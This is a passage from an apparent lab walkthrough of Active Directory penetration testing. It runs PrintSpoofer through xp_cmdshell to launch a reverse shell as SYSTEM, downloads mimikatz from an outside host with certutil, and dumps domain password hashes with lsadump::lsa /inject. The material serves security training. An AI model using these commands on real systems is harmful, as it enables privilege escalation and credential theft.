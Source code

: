 
Execute PrintSpoofer.exe to get the SYSTEM shell

```powershell
xp_cmdshell C:\Users\Public\PrintSpoofer64.exe -c "C:\Users\Public\rshell.exe"
```

Read the flag

![](../imgs/Lab/Lab28/25.png)

## **Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host**

We used mimikatz to dump the password

```powershell
certutil -urlcache -f http://172.16.7.240:8000/mimikatz.exe mimikatz.exe
```

![](../imgs/Lab/Lab28/26.png)

Run mimikatz `lsadump::lsa /inject` to dump the password hashes. This command is used to dump all Active Directory domain credentials from a Domain Controller or lsass.dmp dump file

```powershell
lsadump::lsa /inject
```
